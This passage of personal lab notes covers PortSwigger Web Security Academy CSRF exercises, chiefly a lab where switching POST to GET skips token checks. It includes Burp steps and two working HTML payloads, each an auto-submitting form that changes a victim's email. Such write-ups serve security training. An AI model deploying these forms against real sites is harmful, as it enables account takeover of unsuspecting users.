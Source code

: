 - Accessing the above link will redirect the target to the 'desired' website meanwhile the reset email will be changed per our html script(payload)

## **2. CSRF where token validation depends on request method**
This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests. 
1. Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.
2. Send the request to Burp Repeater and observe that if you change the value of the `csrf` parameter then the request is rejected.
3. Use "Change request method" on the context menu to convert it into a GET request and observe that the CSRF token is no longer verified.
4. If you're using [Burp Suite Professional](https://portswigger.net/burp/pro), right-click on the request, and from the context menu select Engagement tools / Generate CSRF PoC. Enable the option to include an auto-submit script and click "Regenerate".
    
    Alternatively, if you're using [Burp Suite Community Edition](https://portswigger.net/burp/communitydownload), use the following HTML template. You can get the request URL by right-clicking and selecting "Copy URL".
    
    `<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> <input type="hidden" name="email" value="anything%40web-security-academy.net"> </form> <script> document.forms[0].submit(); </script>`
5. Go to the exploit server, paste your exploit HTML into the "Body" section, and click "Store".
6. To verify if the exploit will work, try it on yourself by clicking "View exploit" and checking the resulting HTTP request and response.
7. Change the email address in your exploit so that it doesn't match your own.
8. Store the exploit, then click "Deliver to victim" to solve the lab.


Vulnerable parameter - email change functionality
Goal - exploit CSRF to change email address
Creds - wiener:peter

In order for a CSRF attack to be possible:
- A relevant action: change a users email
- Cookie-based session handling: session cookie
- No unpredictable request parameters: **Request method can be changed to GET which does not require CSRF token**

Testing CSRF Tokens:
1. Change the request method from POST to GET.

![[Pasted image 20240920210251.png]]
![[Pasted image 20240920210319.png]]
![[Pasted image 20240920210345.png]]
- now we can remove the CSRF token:
![[Pasted image 20240920210450.png]]

- HTML payload (form action="https://HOST/POST")
```html
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <form action="https://target-acee1f521e65f40d80e4b992006a0005.web-security-academy.net/my-account/change-email/" method="POST" target="csrf-iframe" id="csrf-form">
            <input type="hidden" name="email" value="test5@test.ca">
        </form>

        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```